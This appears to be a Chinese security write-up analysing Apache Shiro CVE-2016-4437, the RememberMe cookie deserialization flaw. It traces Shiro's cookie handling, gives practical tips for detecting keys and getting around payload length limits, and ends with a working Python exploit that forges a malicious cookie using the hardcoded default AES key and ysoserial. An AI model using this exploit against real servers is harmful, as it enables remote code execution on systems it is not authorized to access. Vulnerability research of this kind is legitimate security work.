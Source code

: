 - [Shiro <=1.2.4 CVE-2016-4437 反序列化漏洞](#shiro-124-cve-2016-4437-反序列化漏洞)
  - [Remember me](#remember-me)
    - [生成过程](#生成过程)
    - [解码过程](#解码过程)
  - [实战Tips](#实战tips)
    - [加密方式](#加密方式)
    - [Key检测](#key检测)
    - [payload过长](#payload过长)
  - [ExP](#exp)
# Shiro <=1.2.4 CVE-2016-4437 反序列化漏洞
**原理:**  
在Remember me功能中,其设置的cookie字段内容可被伪造,且该内容未被验证过滤进行反序列化处理造成反序列化漏洞
## Remember me
Remember me可以为用户生成一个长时间存在的cookie以便即使浏览器关闭后再次打开相关页面也不用再次登输入账号密码
### 生成过程
在onSuccessfulLogin函数中,当用户登录后调用forgetIdentity()来清除之前的认证信息,然后调用isRemeberme判断是否启用了Remeberme功能,如果启用了则调用remeberIdentity()进行后续操作
```java

    public void onSuccessfulLogin(Subject subject, AuthenticationToken token, AuthenticationInfo info) {
        //always clear any previous identity:
        forgetIdentity(subject);//清除已有的认证信息

        //now save the new identity:
        if (isRememberMe(token)) {//判断是否启用remeberme功能
            rememberIdentity(subject, token, info);//后续操作
        } else {
            if (log.isDebugEnabled()) {
                log.debug("AuthenticationToken did not indicate RememberMe is requested.  " +
                        "RememberMe functionality will not be executed for corresponding account.");
            }
        }
    }
```
在rememberIdentity()中首先调用getIdentityToRemember()来获取到用户ID对象,然后调用rememberIdentity()
![](pic/202007061png.png)
在rememberIdentity()中使用convertPrincipalsToBytes来将用户ID对象序列化为一个字节数组,然后调用加密函数对字节数组进行encrypt
```java
    protected byte[] convertPrincipalsToBytes(PrincipalCollection principals) {
        byte[] bytes = serialize(principals);//序列化
        if (getCipherService() != null) {
            bytes = encrypt(bytes);//调用加密函数
        }
        return bytes;
    }
```
在encrypt()中调用默认的AES算法对字节数组进行加密,而AES的加密密钥则是从getEncryptionCipherKey()中获取的,而该值为一个固定的值.
![](pic/202007062.png)
默认加密密钥
![](pic/202007063.png)
rememberIdentity()在得到AES加密后的结果后调用rememberSerializedIdentity()来将该值b64编码后设置到cookie中.
![](pic/202007064.png)

生成流程:
1. 登录成功后清除已有认证信息,判断Remeberme参数是否为true.
2. 获取用户ID对象,反序列化ID对象之后调用AES加密.
3. 将加密后的结果b64编码后设置到cookie中供后续使用.

![](pic/202007065.png)
### 解码过程 
去掉登录的session来发送一个带有rememberme cookie的请求,触发resolvePrincipals()方法,在其中调用
getRememberedIdentity()进行remeberme认证,还原用户ID对象.  
```java
    protected SubjectContext resolvePrincipals(SubjectContext context) {

        PrincipalCollection principals = context.resolvePrincipals();

        if (CollectionUtils.isEmpty(principals)) {
            log.trace("No identity (PrincipalCollection) found in the context.  Looking for a remembered identity.");

            principals = getRememberedIdentity(context);
            ...
            ...
```
在getRememberedIdentity()方法中,在该函数中获取到一个getRememberMeManager对象,然后调用其getRememberedPrincipals()方法获取到存储的Principal对象,也就是包含用户信息的一个对象.
```java
    protected PrincipalCollection getRememberedIdentity(SubjectContext subjectContext) {
        RememberMeManager rmm = getRememberMeManager();//获取getRememberMeManager对象
        if (rmm != null) {
            try {
                return rmm.getRememberedPrincipals(subjectContext);//调用getRememberMeManager的getRememberedPrincipals方法
            } catch (Exception e) {
                if (log.isWarnEnabled()) {
                    String msg = "Delegate RememberMeManager instance of type [" + rmm.getClass().getName() +
                            "] threw an exception during getRememberedPrincipals().";
                    log.warn(msg, e);
                }
            }
        }
        return null;
    }
}
```
在getRememberedPrincipals()中从cookie的remeberme字段获取到值进行b64解码得到加密的序列化后的字节数组,然后传入convertBytesToPrincipals中.
![](pic/202007066.png)
getRememberedSerializedIdentity获取对应cookie值.
![](pic/202007067.png)
在convertBytesToPrincipals()中对AES加密的值进行解密,解密后直接传入deserialize().
![](pic/202007068.png)
最后在deserialize中来到最终的readObject方法,造成反序列化漏洞.
![](pic/202007069.png)
## 实战Tips
### 加密方式
版本大于1.24后由于padding orcal的影响,加密方式由CBC改为了GCM.
### Key检测
1. 一般使用URLDNS模块进行检测,但可能遇到不出网的情况误报.  
2. 默认情况下如果正确的反序列化数据,服务器不会返回`rememberMe=deleteMe`,可以根据返回头确定Key是否正确.
### payload过长
1. 反序列化时只生成一个自定义的classLoader,在classloder中反射defineclass方法,该方法的参数从POST取出,把我们注册filter的这段payload写在static代码块里,编译后的byte再通过POST传递,自定义ClassLoader加载时会自动执行static代码块的代码,代码要URL编码.
2. 反序列化带参数的构造方法或者静态方法的类使用rmi加载远程恶意类,相当于二次反序列化.
## ExP
```python
# pip install pycrypto
import sys
import base64
import uuid
from random import Random
import subprocess
from Crypto.Cipher import AES

def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'URLDNS', command], stdout=subprocess.PIPE)
    BS   = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key  =  "kPH+bIxk5D2deZiIxcaaaA=="
    mode =  AES.MODE_CBC
    iv   =  uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
    with open("payload.cookie", "w") as fpw:
        print("rememberMe={}".format(payload.decode()), file=fpw)

```
![](pic/202007072.png) 

![](pic/202007071.png)


**参考:**  
https://mp.weixin.qq.com/s/5iYyRGnlOEEIJmW1DqAeXw  
https://xz.aliyun.com/t/8445
